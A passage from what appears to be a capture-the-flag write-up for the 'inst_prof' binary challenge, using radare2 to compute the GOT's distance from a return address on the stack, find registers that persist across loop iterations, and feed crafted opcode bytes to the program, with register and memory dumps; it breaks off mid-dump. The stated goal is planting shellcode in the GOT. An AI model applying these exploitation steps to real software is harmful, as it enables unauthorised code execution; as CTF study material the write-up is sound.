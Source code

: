 This is a problem that can be solved thinking that even being loaded at a different place, **THE DISTANCE** between 
some specific points will always be the same. We will take the value the `rsp` register is pointing to (which is 
going to be a return address, the address right after the `call rbx` instruction).

{{< highlight r2 "hl_lines=4" >}}
[0x558cfc7d3b16 230 /root/inst_prof]> pd $r @ hit0_0
|           ;-- hit0_0:
│           0x558cfc7d3b16 b    ffd3           rbx ()
│           0x558cfc7d3b18      0f31                 
│           0x558cfc7d3b1a      bf01000000     edi = 1
│           0x558cfc7d3b1f      48c1e220       rdx <<<= 0x20
{{< /highlight >}}

and get the difference between that address and the address of the GOT.

```r2
[0x7f8b1803b000]> ? section..got.plt - [rsp]
2102504 0x2014e8 010012350 2M 20000:04e8 2102504 "\xe8\x14 " 001000000001010011101000 2102504.0 2102504.000000f 2102504.000000
```

This way we will not need to worry about where is the `GOT` located: it will always be at `[rsp] + 0x2014e8`. We 
will need to generate that value on runtime and save it into a register. Once it will be generated, we will use it 
to store our shellcode there.

**2.** and we will need a **register** to store that generated address.

But we can not use one the register we want because is possible it is going that the process is using it to do 
other stuff and we dont want to crash the program for being careless.  
To know which registers we can use, we will:

1. stop the execution just before the first 4 input bytes

2. alter some registers (I altered `r13`, `r14` and `r15` but you can try the ones you want, just remember you will maybe need the values of these registers to generate `0x2014e8`),

3. and read another 4 bytes to check if after one loop any of our chosen registers have been changed.

{{< highlight r2 "hl_lines=12 20" >}}
$ r2 -Ad -R "stdin=\"`python -c 'print(\"\xc3\" * 8)'`\"" -c 'dcu main; db `/a call rbx~[0]`; dc; ds 2; dr r13=0x1111; dr r14=0x2222; dr r15=0x3333; Vpp' inst_prof
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x7fffb7fbd398  182b c6a0 6755 0000 a02c f36e 167f 0000  .+..gU...,.n....
0x7fffb7fbd3a8  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x7fffb7fbd3b8  c928 c6a0 6755 0000 d0d3 fbb7 ff7f 0000  .(..gU..........
0x7fffb7fbd3c8  c728 c6a0 6755 0000 602b c6a0 6755 0000  .(..gU..`+..gU..
 rax 0x00000000           rbx 0x7f166f142000       rcx 0x00001000
 rdx 0x4e0200000000        r8 0xffffffffffffffff    r9 0x00000000
 r10 0x00000487           r11 0x00000202           r12 0x4e029a1c56e7
 r13 0x00001111           r14 0x00002222           r15 0x00003333
 rsi 0x00001000           rdi 0x7f166f142000       rsp 0x7fffb7fbd398
 rbp 0x7fffb7fbd3c0       rip 0x7f166f142005       rflags 1PI
orax 0xffffffffffffffff
            ;-- rbx:
            ;-- rdi:
            0x7f166f142000      b900100000     ecx = 0x1000            ; rsi
        ┌─> ;-- rip:
        ┌─> 0x7f166f142005      c3 
        |   0x7f166f142006      c3 
        |   0x7f166f142007      c3 